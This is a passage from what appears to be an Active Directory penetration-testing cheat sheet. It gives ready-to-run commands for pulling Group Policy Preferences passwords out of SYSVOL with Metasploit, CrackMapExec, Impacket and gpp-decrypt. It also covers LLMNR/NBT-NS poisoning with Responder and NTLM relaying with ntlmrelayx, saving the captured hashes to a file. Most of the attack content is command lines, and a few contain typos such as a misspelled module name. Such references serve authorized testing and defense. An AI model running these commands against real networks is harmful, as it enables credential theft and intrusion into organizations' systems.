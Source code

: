 ##### Metasploit Post-Module : Once you get shell on windows host
```
use post/windows/gather/credentials/gpp
msf post(windows/gather/credentials/gpp) > set session 1
msf post(windows/gather/credentials/gpp) > exploit
```

##### CrackMapExec Module 1 : gpp_password
Retrieves the plaintext password and other information for accounts pushed through Group Policy Preferences.
Groups.xml, Services.xml, Scheduledtasks.xml, DataSources.xml, Printers.xml, Drives.xml
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_pasword
```

##### CrackMapExec Module 2: gpp_autologin
Searches the domain controller for registry.xml to find autologon information and returns the username and password.
```
crackmapexec smb 192.168.0.10 -u jdoe -p Password 123 -M gpp_autologin
```

##### Impacket Module
Breadth-first search algorithm to recursively find .xml extension files within SYSVOL.
```
Get-GPPPassword.py company.local/jdoe:Password123@192.168.0.10'
```

##### Decrypt the found password manually
```
gpp-decrypt <encrypted cpassword>
```



### LLMNR / NBT-NS / mDNS
> Microsoft systems use Link-Local Multicast Name Resolution (LLMNR) and the NetBIOS Name Service (NBT-NS) for local host resolution when DNS lookups fail. Apple Bonjour and Linux zero-configuration implementations use Multicast DNS (mDNS) to discover systems within a network.

#### Responder + ntlmrelayx
It is possible to directly relay NetNTLM has to SMB/LDAP/HTTP and DNS session over a victim. If the victim has SMB and/or LDAP signing activated try to relay on other protocols than SMB or LDAP.

Poisoning LLMNR/NetBios-NS response
```
python3 Responder.py -I eth0 -wbF
```

Relay over smb to 192.168.0.10, with smb2 support, socks enable, interactive mode and dumping the NetNTLM relayed hash in option
```
sudo ntlmrelayx.py -t 192.168.0.10 -i -socks -smb2support -debug --output-file ./netntlm.hashes.relay
```
